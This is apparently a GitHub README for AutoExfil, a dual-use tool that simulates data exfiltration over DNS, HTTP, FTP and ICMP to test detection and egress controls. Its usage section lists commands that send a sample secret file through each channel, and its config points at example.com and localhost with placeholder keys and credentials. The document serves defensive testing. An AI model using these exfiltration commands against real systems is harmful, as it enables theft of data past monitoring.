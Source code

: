 # AutoExfil – Automated Data Exfiltration Simulator

Author: mchyasn

## Description

AutoExfil simulates realistic data exfiltration techniques across multiple channels (DNS, HTTP, FTP, ICMP) to evaluate and test the effectiveness of detection systems. It's designed for red teamers, blue teamers, and security engineers to validate defenses, tune alerts, and study data leakage vectors.

## Use Cases

* Red Team: Validate firewall rules, DLPs, and egress controls in real-world environments.
* Blue Team: Simulate MITRE ATT\&CK techniques (e.g., T1041, T1071.001/.002/.004) and fine-tune detection rules.
* Security Engineers: Benchmark SIEM visibility and test exfil coverage across tools.

## Features

* Simulates multiple data exfiltration channels:

  * DNS tunneling (via TXT records)
  * HTTP POST
  * FTP upload
  * ICMP echo data
* AES-256 encryption with key from config
* Chunked and throttled transmissions
* Plugin-based channel system for easy extensibility
* Logs success/failure and per-channel behavior

## Project Structure

```
AutoExfil/
├── channels/
│   ├── dns.py
│   ├── ftp.py
│   ├── http.py
│   └── icmp.py
├── utils/
│   ├── crypto.py
│   └── chunker.py
├── config.json
├── main.py
├── requirements.txt
├── test_autoexfil.py
└── screenshots/
```

## Installation

```bash
git clone https://github.com/yourrepo/AutoExfil
cd AutoExfil
python3 -m venv venv
source venv/bin/activate
pip install -r requirements.txt
```

## Usage

Prepare your target file and config.json first.

### DNS

```bash
python main.py dns test_secret.txt
```
![Data Exfiltration Simulator](https://raw.githubusercontent.com/mchyasn/cybersecurity-tools/main/02-Vulnerability-Scanning-and-Exploitation/AutoExfil/screenshots/0.png)
![Data Exfiltration Simulator](https://raw.githubusercontent.com/mchyasn/cybersecurity-tools/main/02-Vulnerability-Scanning-and-Exploitation/AutoExfil/screenshots/1.png)

### HTTP

```bash
# Start listener in another terminal
python3 -m http.server 8000

# Run exfil
python main.py http test_secret.txt
```
![Data Exfiltration Simulator](https://raw.githubusercontent.com/mchyasn/cybersecurity-tools/main/02-Vulnerability-Scanning-and-Exploitation/AutoExfil/screenshots/2.png)

### FTP

```bash
# Start FTP server
python3 -m pyftpdlib -p 2121 -u user -P pass -d /tmp/ftp_home

# Then run:
python main.py ftp test_secret.txt
```
![Data Exfiltration Simulator](https://raw.githubusercontent.com/mchyasn/cybersecurity-tools/main/02-Vulnerability-Scanning-and-Exploitation/AutoExfil/screenshots/3.png)

### ICMP

```bash
# Run tcpdump to observe ICMP
sudo tcpdump -i lo icmp

# Then:
sudo python main.py icmp test_secret.txt
```
![Data Exfiltration Simulator](https://raw.githubusercontent.com/mchyasn/cybersecurity-tools/main/02-Vulnerability-Scanning-and-Exploitation/AutoExfil/screenshots/4.png)

## Configuration (config.json)

```json
{
  "dns_domain": "example.com",
  "http_endpoint": "http://localhost:8000/upload",
  "ftp_server": "127.0.0.1",
  "ftp_port": 2121,
  "ftp_user": "user",
  "ftp_pass": "pass",
  "icmp_target": "127.0.0.1",
  "encryption_key": "SuperSecretKey1234",
  "chunk_size": 20,
  "throttle": 0.5
}
```

## Author

Developed by mchyasn
